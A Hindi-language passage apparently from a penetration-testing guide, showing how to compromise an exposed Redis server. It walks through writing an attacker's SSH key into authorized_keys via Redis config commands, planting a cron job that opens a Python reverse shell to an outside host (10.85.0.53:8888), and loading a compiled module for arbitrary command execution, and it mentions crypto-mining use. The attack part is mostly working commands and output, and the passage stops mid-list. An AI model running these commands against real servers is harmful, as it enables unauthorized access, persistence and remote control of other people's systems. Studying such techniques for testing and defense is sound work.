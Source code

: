 ### SSH

कृपया ध्यान दें कि **`config get dir`** परिणाम को अन्य मैन्युअल अभिशोषण कमांड के बाद बदला जा सकता है। रेडिस में लॉगिन करने के बाद इसे पहले चलाने की सलाह दी जाती है। **`config get dir`** के आउटपुट में आप **रेडिस उपयोगकर्ता** के **होम** (आमतौर पर _/var/lib/redis_ या _/home/redis/.ssh_) का पता लगा सकते हैं, और इसे जानकर आप जानते हैं कि आप कहां लिख सकते हैं `authenticated_users` फ़ाइल को ssh के माध्यम से एक्सेस करने के लिए **रेडिस उपयोगकर्ता** के साथ। यदि आप अन्य मान्य उपयोगकर्ता के होम को जानते हैं जहां आपके पास लिखने की अनुमति है, तो आप इसका दुरुपयोग भी कर सकते हैं:

1. अपने पीसी पर एक ssh पब्लिक-प्राइवेट कुंजी जोड़ें: **`ssh-keygen -t rsa`**
2. पब्लिक कुंजी को एक फ़ाइल में लिखें: **`(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`**
3. फ़ाइल को रेडिस में आयात करें: **`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`**
4. रेडिस सर्वर पर **authorized\_keys** फ़ाइल में पब्लिक कुंजी सहेजें:

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```
5. अंत में, आप निजी कुंजी के साथ **रेडिस सर्वर** पर **ssh** कर सकते हैं: **ssh -i id\_rsa redis@10.85.0.52**

**इस तकनीक को यहां स्वचालित रूप से किया जा सकता है:** [https://github.com/Avinash-acid/Redis-Server-Exploit](https://github.com/Avinash-acid/Redis-Server-Exploit)

### Crontab
```
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```
अंतिम उदाहरण Ubuntu के लिए है, **Centos** के लिए ऊपर दिए गए कमांड का उपयोग करना चाहिए: `redis-cli -h 10.85.0.52 config set dir /var/spool/cron/`

इस तरीके का उपयोग बिटकॉइन कमाने के लिए भी किया जा सकता है: [yam](https://www.v2ex.com/t/286981#reply14)

### Redis मॉड्यूल लोड करें

1. [https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) के निर्देशों का पालन करके आप **किसी भी आरबिट्रे कमांड को निष्पादित करने के लिए एक रेडिस मॉड्यूल को कंपाइल** कर सकते हैं।
2. फिर आपको कंपाइल किए गए मॉड्यूल को **अपलोड करने का कोई तरीका** चाहिए।
3. `MODULE LOAD /path/to/mymodule.so` के साथ **रनटाइम में अपलोड किए गए मॉड्यूल** लोड करें।
4. यह सुनिश्चित करने के लिए **लोड किए गए मॉड्यूल की सूची** देखें: `MODULE LIST`
5. **कमांड निष्पादित** करें:
